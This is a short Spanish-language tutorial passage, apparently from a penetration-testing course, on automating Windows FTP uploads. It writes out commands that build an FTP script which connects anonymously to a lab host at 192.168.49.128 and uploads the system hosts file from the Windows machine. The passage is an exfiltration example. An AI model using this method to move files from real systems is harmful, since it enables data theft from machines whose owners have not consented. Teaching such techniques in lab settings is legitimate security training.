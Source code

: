 ### Crear un Archivo de Comandos para el Cliente FTP y Subir un Archivo

Podemos crear un archivo de comandos para que el cliente FTP ejecute la carga del archivo de manera automatizada.

```cmd
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
```

Este archivo de comandos ejecuta los siguientes pasos:

1. Se conecta al servidor FTP (`open 192.168.49.128`).
2. Inicia sesión con el usuario `anonymous`.
3. Cambia al modo binario.
4. Sube el archivo `hosts` desde `C:\Windows\System32\drivers\etc\hosts`.
5. Cierra la conexión.

#### Pasos ejecutados en el cliente FTP

```bash
ftp> open 192.168.49.128
ftp> USER anonymous
ftp> PUT c:\windows\system32\drivers\etc\hosts
ftp> bye
```
